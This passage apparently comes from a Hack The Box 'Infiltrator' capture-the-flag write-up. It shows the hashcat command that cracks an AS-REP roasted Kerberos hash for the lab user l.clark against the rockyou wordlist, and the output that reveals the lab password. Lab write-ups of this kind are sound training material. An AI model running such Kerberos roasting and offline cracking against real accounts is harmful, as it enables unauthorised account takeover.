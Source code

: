 Great, now we know 7 usernames, and a hash. Let's try to crack that hash and see what happens. Fortunately, we already have the hash formatted and ready to go for hashcat, since we used that flag in our command. Let's just copy and paste that hash into a file and run it:

```
echo '$krb5asrep$23$l.clark@INFILTRATOR.HTB:f48aa93a745f87fe2915de6d7a5297cb$3c67dfbd0a71880460ae794f18a7ca0e3c301a796ede8ab9a24112ea618f5e0ab98605c40a0256039b359ee3429b6d32ac9b45d5fa2a86a9da79f2f40d20bfd18f9bd9fbc6f7a6caae2e48a42db975daff1d96b3adaab18c3115b1659e1ab2f454ca60cb6c1977ac16521cba4e35e0ed045d9f0d1a65eeb3ba8d63563a30e2fe44073405bb0b23389b5159f9591268865898869cfc8ff6047e5f560f1b5c1195cd8f8ebddda967eb122e2081c99d61fa57d3540b558f111d83bc342d6abb91738ddb6111ef1396bc5bd630a2196b968783340e2c3de30ff49989c29df4d8b4b77289c88a124de4e121a836fccfdfe67fa46b' > l.clark.hash && hashcat ./l.clark.hash /usr/share/wordlists/rockyou.txt
```

New hashcats will auto detect the hash, but for people who would really wish I had just said the mode number here, I'm sorry. You will have to find out that it's mode 18200 on your own.

{% code overflow="wrap" %}
```
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$l.clark@INFILTRATOR.HTB:f48aa93a745f8...7fa46b
Time.Started.....: Tue May 13 21:24:17 2025 (6 secs)
Time.Estimated...: Tue May 13 21:24:23 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1882.4 kH/s (0.73ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 10504192/14344385 (73.23%)
Rejected.........: 0/10504192 (0.00%)
Restore.Point....: 10502144/14344385 (73.21%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: WEREVER -> WASSUP85
Hardware.Mon.#1..: Util: 76%

Started: Tue May 13 21:23:53 2025
Stopped: Tue May 13 21:24:23 2025
                                                                                                                                                                                                               
┌──(kali㉿kali)-[~/infiltrator-writeup]
└─$ echo '$krb5asrep$23$l.clark@INFILTRATOR.HTB:f48aa93a745f87fe2915de6d7a5297cb$3c67dfbd0a71880460ae794f18a7ca0e3c301a796ede8ab9a24112ea618f5e0ab98605c40a0256039b359ee3429b6d32ac9b45d5fa2a86a9da79f2f40d20bfd18f9bd9fbc6f7a6caae2e48a42db975daff1d96b3adaab18c3115b1659e1ab2f454ca60cb6c1977ac16521cba4e35e0ed045d9f0d1a65eeb3ba8d63563a30e2fe44073405bb0b23389b5159f9591268865898869cfc8ff6047e5f560f1b5c1195cd8f8ebddda967eb122e2081c99d61fa57d3540b558f111d83bc342d6abb91738ddb6111ef1396bc5bd630a2196b968783340e2c3de30ff49989c29df4d8b4b77289c88a124de4e121a836fccfdfe67fa46b' > l.clark.hash && hashcat ./l.clark.hash /usr/share/wordlists/rockyou.txt --show
Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

18200 | Kerberos 5, etype 23, AS-REP | Network Protocol

NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.

$krb5asrep$23$l.clark@INFILTRATOR.HTB:f48aa93a745f87fe2915de6d7a5297cb$3c67dfbd0a71880460ae794f18a7ca0e3c301a796ede8ab9a24112ea618f5e0ab98605c40a0256039b359ee3429b6d32ac9b45d5fa2a86a9da79f2f40d20bfd18f9bd9fbc6f7a6caae2e48a42db975daff1d96b3adaab18c3115b1659e1ab2f454ca60cb6c1977ac16521cba4e35e0ed045d9f0d1a65eeb3ba8d63563a30e2fe44073405bb0b23389b5159f9591268865898869cfc8ff6047e5f560f1b5c1195cd8f8ebddda967eb122e2081c99d61fa57d3540b558f111d83bc342d6abb91738ddb6111ef1396bc5bd630a2196b968783340e2c3de30ff49989c29df4d8b4b77289c88a124de4e121a836fccfdfe67fa46b:WAT?watismypass!
```
{% endcode %}
